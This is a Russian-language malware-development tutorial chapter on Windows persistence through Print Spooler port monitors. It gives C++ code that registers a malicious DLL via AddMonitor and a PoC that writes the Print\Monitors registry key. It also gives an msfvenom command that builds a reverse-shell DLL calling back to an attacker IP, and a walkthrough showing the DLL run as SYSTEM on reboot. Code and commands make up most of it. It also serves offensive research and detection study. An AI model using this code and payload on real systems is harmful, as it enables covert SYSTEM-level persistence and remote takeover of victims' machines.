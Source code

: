 \newpage
\subsection{74. Разработка вредоносного ПО: закрепление (persistence) - часть 8. Мониторы портов. Простой пример на C++.}

![pers](./images/59/2022-06-20_19-35.png){width="80%"}    

Этот пост является результатом самостоятельного исследования одного из интересных методов закрепления вредоносного ПО: Мониторы портов.    

### мониторы портов

Монитор порта в этом контексте относится к службе Windows Print Spooler (`spoolv.exe`). При добавлении монитора порта пользователь (или атакующий) может добавить произвольную DLL, которая будет служить *"монитором"*.    

Существует два основных способа добавить монитор порта, то есть вредоносную DLL: через реестр (для закрепления) или с помощью пользовательского приложения Windows (`AddMonitor`), что приведёт к немедленному выполнению DLL.    

### добавление монитора

С помощью Win32 API, а именно функции `AddMonitor` из API диспетчера очереди печати:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

можно добавить произвольный монитор DLL во время работы системы. Заметьте, что для добавления монитора требуются права локального администратора.    

Пример исходного кода монитора:

```cpp
/*
monitor.cpp
закрепление Windows через мониторы портов
регистрация монитора порта
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}
```

Скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

![pers](./images/59/2022-06-20_08-17.png){width="80%"}    

Также создадим "вредоносную" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](./images/59/2022-06-20_19-24.png){width="80%"}    

После компиляции кода будет создан исполняемый файл (`monitor.exe`), который зарегистрирует вредоносную DLL (`evil2.dll`) в системе.    

### демонстрация добавления "монитора"

Копируем файлы и запускаем:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](./images/59/2022-06-20_19-28.png){width="80%"}    

### закрепление через реестр

Список под-ключей мониторов портов можно найти в узле        
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`.       
Каждый ключ должен содержать запись `REG_SZ`, указывающую на `Drivers` DLL. При запуске системы каждая из этих DLL будет выполняться от имени `SYSTEM`.    

Сначала, перед выполнением вредоносных действий, проверяем под-ключи:

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

![pers](./images/59/2022-06-20_15-48.png){width="80%"}    

Затем добавляем под-ключ `Meow` и значение `Driver`:

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

![pers](./images/59/2022-06-20_18-17.png){width="80%"}    

Как видно, всё выполнено корректно. Затем перезагружаем машину жертвы:

![pers](./images/59/2022-06-20_18-17_1.png){width="80%"}    

![pers](./images/59/2022-06-20_18-17_2.png){width="80%"}    

И через несколько минут:

![pers](./images/59/2022-06-20_19-30.png){width="80%"}    

![pers](./images/59/2022-06-20_19-31.png){width="80%"}    

Проверяем вкладку `Network` в Process Hacker 2:

![pers](./images/59/2022-06-20_19-34.png){width="80%"}    

Можно увидеть, что `evil2.dll` используется `spoolsv.exe (PID: 4616)`, который в конечном итоге порождает `rundll32` с нашим вредоносным кодом, создавая соединение с атакующим:

![pers](./images/59/2022-06-20_19-33.png){width="80%"}    

очистка после экспериментов

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

![pers](./images/59/2022-06-20_21-22.png){width="80%"}    

"Грязный" PoC для закрепления через реестр:

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

Во время Defcon 22 Брэди Блоксхэм [продемонстрировал](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) этот метод закрепления. Этот метод требует прав администратора, а DLL-файл должен быть сохранен на диске.
Остается вопрос, используют ли какие-либо APT этот метод в реальных условиях.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[исходный код на Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
